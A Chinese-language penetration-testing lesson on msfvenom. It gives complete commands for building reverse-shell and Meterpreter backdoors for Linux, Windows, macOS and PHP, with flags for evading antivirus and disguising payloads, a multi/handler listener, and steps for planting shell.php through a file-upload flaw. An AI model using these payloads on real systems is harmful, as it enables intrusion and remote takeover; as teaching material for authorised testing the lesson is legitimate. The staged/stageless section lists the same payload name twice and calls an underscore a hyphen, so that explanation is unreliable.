# Kali渗透测试：P65：msfvenom介绍与使用 🛠️

在本节课中，我们将学习Metasploit框架中一个至关重要的工具——`msfvenom`。它是生成有效载荷（Payload）的核心，用于创建能够在目标系统上执行的后门程序，从而实现远程控制。我们将了解其基本概念、常用参数，并通过实例演示如何为不同平台生成载荷。

## 概述

`msfvenom`是`msfpayload`和`msfencode`两个工具的集成。`msfpayload`负责生成攻击载荷，而`msfencode`负责对载荷进行编码以绕过杀毒软件（AV）或入侵检测系统（IDS）。`msfvenom`将它们合二为一，成为一个强大的木马生成器。

其基本攻击思路是：首先找到目标系统的漏洞点，然后使用`msfvenom`生成对应的木马程序，接着通过某种方式（如文件上传、诱导下载）将木马放置到目标（靶机）上并运行。在木马运行前，攻击者需要在攻击机上开启监听，等待靶机上的木马主动连接回来，从而建立控制会话（Session）。

## msfvenom核心参数解析

上一节我们介绍了`msfvenom`的基本概念，本节中我们来看看它的核心命令参数。虽然参数众多，但初学者只需掌握几个最常用的即可。

以下是`msfvenom`最关键的几个参数：

*   **`-p`**：指定要使用的Payload（攻击载荷）。这是最重要的参数，决定了木马的类型和功能。例如，`windows/meterpreter/reverse_tcp`。
*   **`-f`**：指定输出文件的格式。例如，`exe`用于Windows可执行文件，`elf`用于Linux可执行文件，`raw`用于原始格式。
*   **`LHOST`**：设置监听主机的IP地址，即攻击机的IP。
*   **`LPORT`**：设置监听主机的端口号。
*   **`-e`**：指定编码器，用于对Payload进行编码以尝试绕过检测。
*   **`-i`**：设置编码迭代次数。
*   **`-a`**：指定目标系统架构，如`x86`或`x64`。
*   **`--platform`**：指定目标操作系统平台，如`windows`或`linux`。
*   **`-x`**：指定一个可执行文件作为模板，将Payload注入其中，起到伪装作用。



> **注意**：编码（`-e`和`-i`参数）在绕过现代杀毒软件方面的效果有限。杀软主要依靠特征码和行为分析进行查杀，单纯增加编码次数不一定能提高免杀率。

## 为不同平台生成Payload实例

了解了核心参数后，我们通过具体命令来学习如何为不同操作系统生成Payload。

以下是生成Linux、Windows和macOS反向TCP连接Payload的示例：

**1. 生成Linux (x86) 反向TCP Meterpreter Payload**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
```
*   `-p linux/x86/meterpreter/reverse_tcp`: 指定Linux x86架构的反向TCP Meterpreter载荷。
*   `LHOST`和`LPORT`: 指定攻击机的IP和监听端口。
*   `-f elf`: 输出格式为ELF（Linux可执行文件）。
*   `> shell.elf`: 将生成的载荷保存到`shell.elf`文件。





**2. 生成Windows 反向TCP Meterpreter Payload**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```
*   只需将平台和输出格式改为Windows对应的`windows`和`exe`即可。







**3. 生成macOS 反向TCP Shell Payload**
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho > shell.macho
```
*   `-p osx/x86/shell_reverse_tcp`: 指定macOS x86架构的反向TCP Shell载荷。
*   `-f macho`: 输出格式为macho（macOS可执行文件）。

## 生成Web Payload与监听

除了可执行文件，`msfvenom`还能生成Web脚本后门，例如PHP、ASP等。这在利用文件上传漏洞时非常有用。





**生成PHP反向TCP Meterpreter Payload**
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f raw > shell.php
```
*   `-p php/meterpreter_reverse_tcp`: 指定PHP语言的反向TCP Meterpreter载荷。
*   `-f raw`: PHP载荷通常使用`raw`格式输出。







生成Payload后，需要**在攻击机上开启监听**来接收连接。这里使用Metasploit的`multi/handler`模块。





**步骤1：启动Metasploit并设置监听**
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST 192.168.1.100
set LPORT 5555
run
```
*   `set PAYLOAD`: 必须与生成Payload时使用的类型**完全一致**。
*   `set LHOST`和`set LPORT`: 与生成Payload时设置的保持一致。





**步骤2：执行攻击**
将生成的`shell.php`文件通过漏洞（如文件上传）放置到目标Web服务器的可访问目录（例如`/var/www/html/`）。然后在浏览器中访问这个PHP文件（如`http://target/shell.php`），攻击机上的监听器就会收到一个Meterpreter会话。



## 分段与不分段Payload



在查找Payload时，你可能会注意到两种类似但不同的名称，例如：
*   `windows/meterpreter/reverse_tcp`
*   `windows/meterpreter/reverse_tcp`



它们的核心区别在于中间是否有连字符（`_`），这代表了**分段（Staged）** 和**不分段（Stageless）** 两种Payload类型。

*   **不分段Payload (Stageless)**：如`windows/meterpreter_reverse_tcp`。它是一个**完整的、独立的**木马，包含了Meterpreter的所有功能代码。体积较大，但连接稳定，功能完整。
*   **分段Payload (Staged)**：如`windows/meterpreter/reverse_tcp`。它分为**两个阶段**。第一阶段是一个**小巧的引导程序**，只负责建立到攻击机的网络连接。第二阶段，攻击机通过这个连接将完整的Meterpreter功能代码（Stage）传输到目标执行。体积小，易于上传，但在不稳定网络中可能中断。



**类比理解**：
*   **不分段Payload** 类似于WebShell中的“大马”，功能齐全，但体积大，容易被查杀。
*   **分段Payload** 类似于WebShell中的“小马”，体积小，隐蔽性好，但需要稳定的网络连接来接收后续的完整功能。

选择哪种取决于目标环境（如网络状况、文件大小限制）和实际需求。

## 总结



本节课中我们一起学习了`msfvenom`工具的核心用法。我们了解到它是生成攻击载荷的瑞士军刀，掌握了其关键参数（`-p`, `-f`, `LHOST`, `LPORT`），并实践了为Linux、Windows、macOS以及Web（PHP）平台生成Payload的方法。最后，我们探讨了分段与不分段Payload的重要区别，这是在实际渗透测试中稳定获取会话的关键知识点。记住，生成Payload只是第一步，成功利用漏洞将其投递到目标并执行，同时配合`multi/handler`进行稳定监听，才能最终获得对目标系统的控制权。